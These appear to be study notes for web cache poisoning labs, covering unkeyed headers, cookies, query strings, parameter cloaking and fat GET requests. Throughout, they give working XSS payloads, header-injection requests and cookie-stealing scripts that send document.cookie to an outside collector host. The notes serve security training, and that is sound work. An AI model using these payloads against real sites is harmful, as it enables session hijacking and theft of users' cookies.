___

Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response.
If you got only tracking.js without X-Cache - no cache poisoning here.



If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response



You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('')`. Poison web cache with your server and wait for victim's cookies.

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

# Web cache poisoning with an unkeyed header

The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.  
  
Burp added the following headers to the request:  
  
X-Forwarded-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Forwarded-Server: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com




## Cookie steal

X-Forwarded-Host: exploit-0ab30085047ba7ec862a98ec018d0091.exploit-server.net

Exploit server: 
	File: /resources/js/tracking.js
	Body: document.location='http://00ytfwduj1605olk3s3bahg31u7mvb.oastify.com/?cookies='+document.cookie;




# Web cache poisoning with an unkeyed cookie



```js
test"-alert(1)-"test
```



# Web cache poisoning with multiple headers



The `Location` header shows that you are being redirected to the same URL that you requested, but using `https://`



> On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write `alert(document.cookie)` script.

```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```

To check that the response was cached correctly, right-click on the request in Burp, select "Copy URL", and load this URL in Burp's browser.


# Targeted web cache poisoning using an unknown header

X-Forwarded-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Forwarded-Server: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net

Vary: User-Agent

```html

```

User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Change User-Agent on the request


# Web cache poisoning via an unkeyed query string

utm_content=yui1kx7r00
Origin: x
```js
/?cb=1244&utm_content=vaina'/><script>alert(1)</script>
```

```js
/?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>
```

# Web cache poisoning via an unkeyed query parameter

```js
/?utm_content=123'/><script>alert(1)</script>
```

# Parameter cloaking

Param Miner extension doing a `Bulk scan > Rails parameter cloaking scan` will _**identify**_ the vulnerability automatically. Manually it can be identified by adding `;` to append another parameter to `utm_content`, the cache treats this as a single parameter. This means that the extra parameter is also excluded from the cache key.

```js
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```


# Web cache poisoning via a fat GET request






# URL normalization

```js
/random><script>alert(1)</script>
```


